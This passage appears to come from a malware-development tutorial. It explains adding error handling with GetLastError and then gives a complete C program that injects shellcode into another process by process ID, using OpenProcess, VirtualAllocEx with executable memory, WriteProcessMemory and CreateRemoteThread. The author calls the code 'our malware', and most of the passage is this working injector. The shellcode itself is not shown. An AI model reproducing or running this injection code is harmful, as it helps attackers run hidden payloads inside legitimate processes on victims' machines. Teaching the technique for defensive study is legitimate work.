 
<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p><em>MSDN document for OpenProcess</em></p></figcaption></figure>

We can have a basic check accordingly to check the value of hProcess & print error message accordingly.  The [GetLastError](https://learn.microsoft.com/en-us/windows/win32/api/errhandlingapi/nf-errhandlingapi-getlasterror) function is really important while debugging our malware and we would be using this a lot.

Here's the main function with added Debugging Information & Error Handling.

```c
int main(int argc, char* argv[]) {
	
	if (argc < 2) {
		printf("[*] Usage: %s <PID> ", argv[0]);
		return 0;
	}
	
	DWORD		PID = NULL;
	PVOID		pAddress;
	HANDLE		hProcess = NULL,
		hThread = NULL;

	PID = atoi(argv[1]);
	printf("Getting Handle to the Process with PID: %d\n", PID);

	hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
	if (hProcess == NULL) {
		printf("[-] Error Getting Handle to the Process, Got: %d\n", GetLastError());
		return 1;
	}
	printf("[+] Opened Handle to the Process: %d\n", PID);
	
	pAddress = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), (MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
	if (pAddress == NULL) {
		printf("[-] Unable to Allocate Virtual Memory, Error: %d\n", GetLastError());
		return 1;
	}
	printf("[+] Allocated Virtual Memory   @--0x%p\n", pAddress);
	
	WriteProcessMemory(hProcess, pAddress, shellcode, sizeof(shellcode), 0);
	printf("[+] Wrote payload to the Process\n");
	
	hThread = CreateRemoteThread(hProcess, NULL, NULL, (LPTHREAD_START_ROUTINE)pAddress, NULL, NULL, NULL);
	if (hThread == NULL) {
		printf("[-] Unable to Create Remote thread, Error: %d\n", GetLastError());
		return 1;
	}
	printf("[#] Created Remote Thread!! \n");
	WaitForSingleObject(hThread, INFINITE);
	
	if (hThread) CloseHandle(hThread);
	if (hProcess) CloseHandle(hProcess);
	printf("[+] Cleaning finished... exiting...\n");
	
	return 0;
}
```